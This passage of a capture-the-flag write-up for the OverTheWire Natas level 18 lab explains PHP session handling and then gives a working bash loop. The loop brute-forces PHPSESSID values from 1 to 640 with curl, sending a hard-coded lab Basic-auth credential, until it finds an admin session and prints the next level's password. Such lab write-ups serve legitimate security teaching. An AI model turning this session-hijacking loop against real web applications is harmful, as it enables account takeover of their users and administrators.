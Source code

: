 ```text
        if it failes, 
            return false
        else 
            check if admin exists in $_SESSION ifso
                set admin to zero.
        return true.

What does print_credentials do ?
    if the custom session variable admin exits and if its been set to one we will be granted a admin session
    anything else is a normal user session

What does createID do ?
    Generate a random interger between 1 and the maxid (which is 640)

what does session_id do ?
    session_id() is used to get or set the session id for the current session.
    If id is specified, it will replace the current session id. session_id() needs to be called before session_start() for that purpose.

What does session_start do ?
    session_start() creates a session or resumes the current one based on a session identifier passed via a GET or POST request, or passed via a cookie.


So how can we break this ?
    my_session_start checks if there is a valid PHPSESSID, it will then start the session with that id.
    If there is currently a PHPSESSID for a admin session, and we correctly guess this, we could get a admin session. This way we entirely skip the $_SESSION["admin"] = isValidAdminLogin() since this will only be checked/set if my_session_start returns false or if it exists.
    Since the maxid is been set to 640 this should be brute forceable.
```

Doing the breakiage.

```bash
MaxCookieID=640
CurrentID=0
while [ $CurrentID -ne $MaxCookieID ]
do
    CurrentID=$(( $CurrentID + 1 ))
    SessionCookie="PHPSESSID=$CurrentID"
    curl_output=$(curl -s $'http://natas18.natas.labs.overthewire.org/' -H 'Authorization: Basic bmF0YXMxODp4dktJcURqeTRPUHY3d0NSZ0RsbWowcEZzQ3NEamhkUA==' --cookie "$SessionCookie" --data 'username=admin&password=password')
    if echo $curl_output | grep -q "regular user"; then
        echo "[-] $CurrentID out of $MaxCookieID is not a admin session."
    else
        echo "[+] $CurrentID out of $MaxCookieID is a admin session."
        echo "[+] $(echo $curl_output | grep Password | cut -d "<" -f 1 )"
        break
    fi
done
```
